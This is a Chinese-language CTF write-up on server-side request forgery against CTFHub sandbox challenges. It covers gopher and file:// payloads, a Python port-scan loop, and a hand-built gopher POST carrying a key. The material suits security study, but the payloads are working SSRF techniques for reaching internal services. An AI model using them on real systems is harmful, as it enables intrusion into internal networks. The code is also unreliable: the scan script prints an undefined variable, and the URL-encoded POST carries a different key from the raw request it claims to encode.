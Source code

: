 gopher协议；Gopher协议可以说是SSRF中的万金油。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

![image-20240118162241587](E:\学习资料\网安\笔记\笔记截图\image-20240118162241587.png)

在这个题里面的提示我们可以构造payload：/?url=file:///var/www/html/flag.php

**端口扫描**

![image-20240118163014944](E:\学习资料\网安\笔记\笔记截图\image-20240118163014944.png)

根据题目的提示发现端口的范围是8000-9000，直接bp抓包，发送到intruder里面构造爆破，当长度有所不同时则找到了端口

或者运用脚本

```python
import requests

url = "http://challenge-db4dea3cc44b1066.sandbox.ctfhub.com:10800/?url=127.0.0.1:8000"
for index in range(8000, 9001):
    url_1 = f'http://challenge-db4dea3cc44b1066.sandbox.ctfhub.com:10800/?url=127.0.0.1:{index}'
    r = requests.get(url_1)
    print(i, r.text)

```

**POST请求**

![image-20240118164531223](E:\学习资料\网安\笔记\笔记截图\image-20240118164531223.png)

先用dirsearch扫描一遍发现有index.php和flag.php，构造payload访问一下

```
/?url=file:///var/www/html/index.php
/?url=file:///var/www/html/flag.php
```

查看源码得知需要本地地址可以访问，然后发现一个key，构造一个POST来发送这个key。构造最基本的POST请求

```
gopher://127.0.0.1:80/_POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=00f001523d0b955749ea5e3b0ca09b5f
```

进行url编码POST%20/flag.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1:80%0D%0AContent-Length:%2036%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Akey=a23efde9fbddeb0cd5755d9a532c9342

发送请求得到flag

**上传文件**

![image-20240118191021004](E:\学习资料\网安\笔记\笔记截图\image-20240118191021004.png)

这次需要上传一个文件到flag.php了.祝你好运
